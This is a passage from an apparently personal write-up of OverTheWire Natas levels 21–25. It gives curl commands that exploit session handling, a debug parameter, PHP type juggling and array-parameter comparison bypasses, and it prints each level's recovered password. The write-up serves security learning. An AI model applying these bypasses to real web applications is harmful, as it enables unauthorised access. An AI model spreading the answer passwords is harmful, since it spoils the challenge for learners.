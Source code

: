 ```shell 
  | grep -oP 'PHPSESSID=\K[^;]+')

  

echo "[+] Got PHPSESSID: $PHPSESSID"

# GET flag

curl -s -u natas21:BPhv63cKE1lkQl04cE5CuFTzXe15NfiH \

  --cookie "PHPSESSID=$PHPSESSID" \

  http://natas21.natas.labs.overthewire.org/
```
```
Username: natas22
Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz
```
## Natas23
```shell
 curl -i -s -u natas22:d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz \
  "http://natas22.natas.labs.overthewire.org/?revelio=true"
```
```
	natas23
	dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs
```
## Natas24
- PHP type juggling strstr -> 111111111iloveyou -> iloveyou 
```
curl -s -G -u natas23:dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs \
  --data-urlencode "passwd=111111iloveyou" \
  http://natas23.natas.labs.overthewire.org/
```
```
natas24
MeuqmfJ8DDKuTr5pcvzFKSwlxedZYEWd
```
## Natas25
```
passwd[]
```
```
natas25
ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
```
